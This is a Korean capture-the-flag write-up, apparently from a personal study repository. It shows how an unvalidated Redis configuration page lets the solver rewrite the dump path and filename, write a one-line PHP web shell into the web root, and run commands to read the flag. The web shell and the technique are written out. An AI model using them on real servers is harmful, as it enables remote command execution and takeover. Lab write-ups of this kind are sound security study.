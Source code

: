 <br/><br/>

## 문제 풀이
### 취약점이 존재하는 부분
config.php의 코드를 보면 이용자의 입력값을 별다른 검증 없이 사용하여 ```SET``` 명령어로 저장되는 파일의 경로와 이름 등을 변경할 수 있음
* 파일 저장 경로를 html 경로(```/html```)로 하고, 파일 이름을 "exploit.php"로 지정한 다음 셸을 실행하는 PHP 코드를 작성하고 SAVE 명령어로 저장시키면 이를 통해서 플래그를 획득할 수 있음


<br/><br/>

### 익스플로잇
1. /config.php 페이지에서 GET을 통해 현재 파일 저장 경로를 확인하여 html 경로로 변경한 후 저장되는 파일 이름 또한 "exploit.php"로 변경함
    - GET으로 파일 저장 경로(dir)의 값을 확인해 본 결과 html 경로이므로 변경하지 않아도 됨
        <img width="1154" alt="파일경로확인" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/674f5a92-f063-4ebe-af45-af4e8e3e54cc">
    - SET으로 파일 이름(dbfilename)의 값을 "exploit.php"로 지정하고 변경사항이 적용된 것을 GET을 통해 확인함
        <img width="1154" alt="저장되는 파일 이름 변경" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/ce1f9754-aaec-4396-8829-007e169cad22">
        <img width="1154" alt="변경된 파일 이름 확인" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/a7b4df46-e757-46c5-9249-7d135d1a5047">

<br/>

2. / 페이지에서 Command에 ```redis.call()``` 함수를 이용해 셸을 실행하는 PHP 코드를 작성한 후 Submit 버튼을 눌러 저정함
    <img width="1000" alt="php코드작성" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/58449caa-7c5d-4e4c-aff1-14c7152a95ce">
    - Command에 입력하는 PHP 코드 내용
        ```
        return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");
        ```
        + ```redis.call()```는 입력받은 인수들을 이용해 Redis 명령을 실행함 → ```SET test "<?php system($_GET['cmd']); ?>"```가 실행됨
    - 이때 Command 입력창의 Save를 체크하여 SAVE 명령어가 실행되도록 함

<br/>

3. ```접속경로/exploit.php?cmd=/flag```로 접속하면 플래그가 화면에 출력됨
    <img width="1154" alt="결과" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/4875a901-4a9a-4f29-b205-eaca494c030b">

